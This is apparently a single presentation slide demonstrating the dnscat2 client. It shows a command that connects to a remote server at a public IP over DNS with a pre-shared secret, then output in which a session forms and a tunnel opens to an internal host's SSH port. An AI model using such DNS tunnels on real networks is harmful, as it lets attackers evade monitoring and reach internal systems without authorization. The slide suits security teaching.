

Use DNSCAT2 to tunnel traffic (client)
k@x1 ~ $ ./dnscat --dns server=35.236.29.41,port=53 --secret=7a5517be4d20e2c74e0e0ab597d90c02                                                   Creating DNS driver:
 domain = (null)
 host   = 0.0.0.0
 port   = 53
 type   = TXT,CNAME,MX
 server = 35.236.29.41

** Peer verified with pre-shared secret!

Session established!
Got a command: COMMAND_PING [request] :: request_id: 0x0001 :: data: AEOTAMWYKBDSSESHJVPGEHQQKGZKIFYNRJXJQUAUXPOHZRGMANFDUBPADGNNKOGMGEVJUESHUWJHUEONYOHWVOYHZKQBWSV
[[ WARNING ]] :: Got a ping request! Responding!
Response: COMMAND_PING [response] :: request_id: 0x0001 :: data: AEOTAMWYKBDSSESHJVPGEHQQKGZKIFYNRJXJQUAUXPOHZRGMANFDUBPADGNNKOGMGEVJUESHUWJHUEONYOHWVOYHZKQBWSV
Got a command: TUNNEL_CONNECT [request] :: request_id 0x0002 :: host 10.69.69.14 :: port 22
[[ WARNING ]] :: [Tunnel 0] connecting to 10.69.69.14:22...
[[ WARNING ]] :: [Tunnel 0] connected to 10.69.69.14:22!